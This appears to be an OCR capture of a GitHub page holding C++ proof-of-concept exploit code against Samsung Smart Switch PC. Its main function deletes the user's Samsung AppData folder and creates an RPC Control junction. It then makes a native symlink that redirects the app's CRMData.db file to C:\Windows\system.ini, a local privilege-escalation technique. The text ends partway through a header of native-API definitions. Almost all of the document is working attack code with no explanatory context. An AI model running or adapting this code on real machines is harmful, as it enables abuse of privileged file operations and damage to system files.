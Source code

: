 ```cpp
int main() {
	NtInit();

	std::wstring UserProfilePath = std::wstring(_wgetenv(L"USERPROFILE"));

	std::wstring LinkFile = L"CRMData.db";
	std::wstring LinkDirectory = UserProfilePath + std::wstring(L"\\AppData\\Roaming\\Samsung\\Smart Switch PC");
	std::wstring TargetFile = L"C:\\Windows\\system.ini";

	std::wstring RpcControl = L"\\RPC Control";
	std::wstring RpcControlFile = RpcControl + L"\\" + LinkFile;

	std::wstring ParentDirectory = UserProfilePath + std::wstring(L"\\AppData\\Roaming\\Samsung");
	if (GetFileAttributesW(ParentDirectory.c_str()) != INVALID_FILE_ATTRIBUTES) {
		DeleteAllFiles(ParentDirectory.c_str(), 1);
	}

	CreateDirectoryW(ParentDirectory.c_str(), NULL);

	if (!CreateMountPoint(LinkDirectory, RpcControl, L"Junction")) {
		std::cout << "[-] RPC Control Junction Failed" << std::endl;
		exit(0);
	}
	std::cout << "[+] RPC Control Junction Success" << std::endl;

	HANDLE hFile = CreateNativeSymlink(RpcControlFile, BuildNativePath(TargetFile));
	if (hFile == INVALID_HANDLE_VALUE || hFile == NULL) {
		std::cout << "[-] CreateNativeSymlink Failed" << std::endl;
		exit(0);
	}
	std::cout << "[+] CreateNativeSymlink Success    Handle : " << hFile << std::endl;
	std::cout << "[+] CreateSymlink Success" << std::endl;
	std::wcout << L"[+] " << (LinkDirectory + L"\\" + LinkFile) << L" -> " << TargetFile << std::endl;
	std::cout << "Press ENTER to exit and delete the symlink" << std::endl;
	getchar();

	return 0;
}
```

main.cpp

```cpp
#pragma once
#include <Windows.h>

#define     SYMBOLIC_LINK_ALL_ACCESS (STANDARD_RIGHTS_REQUIRED | 0x1)
#define     STATUS_SUCCESS            0x00000000
#define     OBJ_CASE_INSENSITIVE      0x00000040L
#define 	FILE_OPEN                 0x00000001
#define 	FILE_OPEN_IF              0x00000003
#define 	FILE_CREATE               0x00000002
#define 	FILE_DIRECTORY_FILE       0x00000001
#define 	FILE_DIRECTORY_FILE       0x00000001
#define 	FILE_OPEN_REPARSE_POINT   0x00200000

#define ALL_SHARING FILE_SHARE_READ|FILE_SHARE_WRITE|FILE_SHARE_DELETE
#define GENERIC_READ_WRITE GENERIC_READ|GENERIC_WRITE
#define InitializeObjectAttributes( p, n, a, r, s ) {    \
    (p)->uLength = sizeof( OBJECT_ATTRIBUTES );          \
    (p)->hRootDirectory = r;                             \
    (p)->uAttributes = a;                                \
```